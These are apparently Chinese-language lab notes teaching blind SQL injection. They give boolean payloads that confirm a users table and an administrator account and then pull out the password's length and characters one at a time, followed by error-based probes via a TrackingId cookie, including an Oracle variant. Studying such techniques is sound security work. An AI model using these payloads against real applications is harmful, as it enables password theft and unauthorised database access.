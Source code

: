#### 判断是否存在表

>' AND (SELECT 'a' FROM users LIMIT 1)='a
>TURE 返回成功页面存在 users表
>FASE  未能返回成功页面不存在 users表

#### 判断是否存在内容

>' AND (SELECT 'a' FROM users WHERE username='administrator')='a
>TURE 返回成功页面 存在 administrator用户
>FASE 未能返回成功页面 不存在administrator用户

#### 判断内容长度

>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
>判断字符是否大于1
>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
>判断字符是否大于2

#### 判断内容

>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
>判断第一个字符是否是a
>' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
>判断第二个字符是否是a




### 触发SQL错误诱导条件响应

假设应用程序执行相同的 SQL 查询，但根据查询是否返回任何数据，其行为没有任何不同。前面的技术将不起作用，因为注入不同的布尔条件对应用程序的响应没有影响。
在这种情况下，通常可以通过有条件地触发 SQL 错误来诱导应用程序返回条件响应，具体取决于注入的条件。这涉及修改查询，以便在条件为真时会导致数据库错误，但如果条件为假则不会。

#### 判断是否存在注入

利用 ' / " 进行模糊测试

> TrackingId=xyz' （为其添加一个单引号）
> 验证是否收到错误消息
> TrackingId=xyz'' （将其更改为两个引号）
> 验证错误是否消失

*说明存在SQL注入*

#### 构造连接正确语句

>TrackingId=xyz ' || ( SELECT '' ) || '
>构造正确语句 返回正常页面

*若查询无效，则可能数据库为Oracle *
>TrackingId=xyz'||(SELECT '' FROM dual)||'
>构造正确语句 返回正常页面

#### 构造连接错误语句

>TrackingId=xyz' || ( SELECT 'not-a-real-table' ) || '
>返回错误表明注入被后端作为 SQL 查询处理
